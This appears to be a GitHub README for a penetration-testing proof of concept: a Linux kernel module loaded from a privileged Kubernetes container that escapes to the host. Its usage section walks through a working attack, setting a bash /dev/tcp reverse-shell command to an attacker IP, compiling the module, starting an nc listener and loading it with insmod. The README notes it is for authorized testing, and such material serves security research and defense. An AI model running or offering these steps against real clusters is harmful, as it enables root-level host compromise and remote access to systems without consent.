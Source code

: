 # 🛠️ Kernel Module Reverse Shell – Privileged Container Escape PoC

This repository demonstrates a real-world **container escape technique** using a custom **Linux Kernel Module (LKM)** to spawn a reverse shell from within a `--privileged` Kubernetes container.

Featured in [RBT Security’s Kubernetes Penetration Testing – Part Three](https://www.rbtsec.com/blog/kubernetes-pentesting-part-three), this proof-of-concept shows how attackers can go beyond the container boundary and **execute commands directly on the host**.

> ⚠️ **For educational and authorized testing only.**  
> Do NOT run this code in any environment you do not own or have explicit permission to test.

---

### 🔍 About LKM (350-char Description)  
A Loadable Kernel Module (LKM) lets code run in kernel space without rebooting. When used from a privileged Kubernetes container, it can enable full host compromise. This PoC shows how attackers exploit SSTI, load a reverse shell LKM, and escape the container to gain root access on the Node.

---

## 🚀 How It Works

1. The attacker exploits a vulnerability (e.g., SSTI) to gain code execution inside a **privileged container**.  
2. A **custom kernel module** is compiled and injected from inside the container, with the reverse shell IP and port hardcoded in the source code.  
3. Once loaded, the module uses `call_usermodehelper()` to initiate a **reverse shell** to the attacker’s listener.  
4. Since the container runs with full kernel capabilities (e.g., `CAP_SYS_MODULE`), this grants **host-level command execution**.

---

## 📁 Files

- `k8s-lkm-reverse-shell.c`: The kernel module source code  
- `Makefile`: Used to compile the module for the target kernel

---

## 💻 Usage

```bash
# Step 1: Install dependencies inside the container
apt update
apt install -y build-essential linux-headers-$(uname -r)

# Step 2: Edit the reverse shell IP and port in the C source file
# File: k8s-lkm-reverse-shell.c
# Replace <your-ip> and <port> with your attacker's listener

static char command[50] = "bash -i >& /dev/tcp/<your-ip>/<port> 0>&1";

# Step 3: Compile the kernel module
make clean && make

# Step 4: Start your listener
nc -lvnp 6999

# Step 5: Load the kernel module (inside the container)
insmod reverseshell_module.ko
